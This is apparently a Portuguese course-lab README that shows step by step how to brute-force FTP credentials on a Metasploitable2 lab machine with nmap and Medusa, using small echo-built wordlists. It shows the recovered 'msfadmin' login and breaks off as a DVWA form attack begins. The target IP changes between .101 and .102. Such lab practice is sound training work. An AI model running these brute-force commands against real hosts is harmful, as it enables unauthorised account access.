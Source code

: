 # Simulando um Ataque de Brute Force de Senhas com Medusa e Kali Linux.

## Visão geral
Desafio do curso de Cibersegurança 2025 da Santander com parceria DIO, com o intuito de práticar e simular ataques de força bruta e criação de wordlists em um ambiente controlado, utilizando os sistemas Kali Linux e a ferramenta Medusa para acessar o Metasploitable2 e DVWA.

---

## Verificação de ip
No Metasploitable2 que será utilizado como a máquina alvo iremos verificar o ip com o comando "ip a".

<img width="644" height="239" alt="image" src="https://github.com/user-attachments/assets/3b6471e9-e284-4381-8b16-6ff12a7dab3c" />

Obtivemos o ip “192.168.56.101” da máquina alvo.
Agora que conseguimos o ip da máquina alvo, será feito o teste de conectividade para verificar se as máquinas estão na mesma rede, com o comando.

```bash
ping -c 3 192.168.56.101
````

<img width="613" height="196" alt="image" src="https://github.com/user-attachments/assets/1b8b87c6-680a-4cd2-9c37-1d971ce055c2" />

---

## Verificação de portas abertas

Com as máqinas conectadas na mesma rede, iremos fazer a verificação de portas abertas da máquina alvo, com o comando.

```bash
nmap -sV -p 21,22,80,445,139 192.168.56.102
```

<img width="886" height="312" alt="image" src="https://github.com/user-attachments/assets/16846d38-2532-4d44-9f17-34b6a54dabe7" />

A porta que iremos atacar será a 21/tcp do serviço ftp.

---

## Criando listas de usuários e senhas + ataque com a Medusa

Com os seguintes comandos iremos criar os usuários e senhas para realizar o ataque com a Medusa.

```bash
echo -e "user\nmsfadmin\nadmin\nroot" > users.txt
echo -e "123456\npassword\nqwerty\nmsfadmin" > pass.txt
```

Lista de usuários e senhas criadas, agora será feito o ataque na máquina alvo com o seguinte comando.

```bash
medusa -h 192.168.56.102 -U users.txt -P pass.txt -M ftp -t 6
```

<img width="886" height="378" alt="image" src="https://github.com/user-attachments/assets/eb510397-cee6-46e3-bc15-321fc51bae8b" />

Senha e usuário capturadas com sucesso.

```bash
ACCOUNT FOUND: [ftp] Host: 192.168.56.101 User: msfadmin Password: msfadmin [SUCCESS]
```
---

## Realizando o ataque

Com os dados da senha e usuário capturados é a hora de realizar o ataque na máquina alvo através do serviço ftp, com o comando.

```bash
ftp 192.168.56.101
```

<img width="495" height="292" alt="image" src="https://github.com/user-attachments/assets/c5c0a67b-84d7-4ac2-83fd-e282de270355" />

Máquina alvo acessada com sucesso.

---
## Ataque em formulário DVWA
Criação de wordlist com os comandos.
```bash
echo -e "user\nadmin\nmsfadmin\nroot" > users.txt
echo -e "123456\npassword\nqwerty\nmsfadmin" > pass.txt
echo -e "user\nadmin\nmsfadmin\nroot" > users.txt
```
